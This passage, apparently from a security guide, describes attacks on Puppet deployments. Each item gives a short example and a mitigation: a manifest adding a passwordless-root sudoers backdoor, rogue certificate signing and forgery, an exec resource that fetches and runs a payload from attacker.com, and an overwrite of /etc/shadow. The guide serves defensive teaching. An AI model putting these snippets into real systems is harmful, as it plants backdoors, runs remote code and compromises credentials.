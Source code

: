 ##### 2. **Abusing `puppet apply` with Malicious Modules**
   - **Scenario**: An attacker can create or modify a Puppet module that performs unintended actions.
   - **Example**: Modify a file to include a backdoor:
     ```puppet
     file { '/etc/sudoers':
       ensure  => 'present',
       content => "root ALL=(ALL:ALL) ALL\nattacker ALL=(ALL:ALL) NOPASSWD: ALL\n",
     }
     ```
   - **Mitigation**: Use code reviews, digital signatures, and audit trails for all Puppet modules.

##### 3. **Compromising the Puppet Master**
   - **Scenario**: If the Puppet master server is compromised, an attacker can control all nodes by signing new certificates or distributing malicious code.
   - **Example**: Sign a rogue certificate:
     ```bash
     puppet cert sign rogue_node
     ```
   - **Mitigation**: Secure the Puppet master, use multi-factor authentication, and monitor for unusual certificate requests.

##### 4. **Certificate Forgery**
   - **Scenario**: An attacker with access to the Puppet master can create or forge certificates to impersonate legitimate nodes.
   - **Example**:
     ```bash
     openssl genrsa -out rogue_key.pem 2048
     openssl req -new -key rogue_key.pem -out rogue_csr.pem
     puppet cert sign rogue_csr.pem
     ```
   - **Mitigation**: Enforce strict certificate management policies and monitor for abnormal certificates.

##### 5. **Exploiting Puppet Modules for Code Execution**
   - **Scenario**: Many Puppet modules include external resources or execute commands. These can be exploited if not securely configured.
   - **Example**:
     ```puppet
     package { 'wget':
       ensure => 'installed',
     }
     
     exec { 'download_payload':
       command => 'wget http://attacker.com/payload.sh -O /tmp/payload.sh && bash /tmp/payload.sh',
     }
     ```
   - **Mitigation**: Audit and review all external commands or packages invoked by Puppet.

##### 6. **Privilege Escalation via Puppet**
   - **Scenario**: Puppet runs with elevated privileges, and poorly written manifests can lead to privilege escalation.
   - **Example**: Modify critical system files:
     ```puppet
     file { '/etc/shadow':
       ensure  => 'present',
       content => 'root:$6$randomhash:18008::::::\n',
     }
     ```
   - **Mitigation**: Use least privilege practices and separate manifest execution environments.
